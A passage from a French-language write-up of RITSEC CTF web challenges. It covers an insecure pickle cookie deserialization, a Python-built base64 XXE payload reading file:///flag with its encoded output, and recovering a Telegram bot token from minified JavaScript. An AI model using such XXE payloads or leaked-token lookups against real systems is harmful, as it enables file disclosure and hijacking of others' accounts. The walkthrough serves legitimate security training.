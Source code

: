 1. Ici on a la désérialisation du cookie `pickle.loads(b64decode(cookie))` 

2.  Le code ne vérifie pas si les données du cookie ont été modifiées ou manipulées par l'utilisateur avant de les désérialiser.


### X-Men Lore
![Consigne](/images/ritsec_ctf/Pasted%20image%2020230404180641.png)

![Hint](/images/ritsec_ctf/Pasted%20image%2020230403115255.png)

![Hint](/images/ritsec_ctf/Pasted%20image%2020230403115303.png)

![site](/images/ritsec_ctf/Pasted%20image%2020230403140552.png)

L'application génère une page pour chaque personnage en fonction du cookie de l'utilisateur, qui est une chaîne XML encodée en base64.

**XML External Entity**

``` python
from base64 import b64encode

print(b64encode("<?xml version='1.0' encoding='UTF-8'?><!DOCTYPE input [<!ENTITY flag SYSTEM 'file:///flag'>]><input><xmen>&flag;</xmen></input>".encode("utf-8")))
```

``` output
`b'PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgaW5wdXQgWzwhRU5USVRZIGZsYWcgU1lTVEVNICdmaWxlOi8vL2ZsYWcnPl0+PGlucHV0Pjx4bWVuPiZmbGFnOzwveG1lbj48L2lucHV0Pg=='`
```


![output](/images/ritsec_ctf/Pasted%20image%2020230403143217.png)

### Broken Bot
![Consigne](/images/ritsec_ctf/Pasted%20image%2020230403143532.png)

*la page principale*

![Auth](/images/ritsec_ctf/Pasted%20image%2020230403143554.png)

*Le code source*

![code source](/images/ritsec_ctf/Pasted%20image%2020230403145448.png)

J'utilise l'outil CyberChef pour le code minifier

*on le beautify et on récupère un token de bot telegram*

![cyberchef](/images/ritsec_ctf/Pasted%20image%2020230403152454.png)

il y a un token, celui ci correspond a un bot telegram. Pour récupérer les information on peut utiliser ce site `https://api.telegram.org/botVOTRE_TOKEN/getMe`
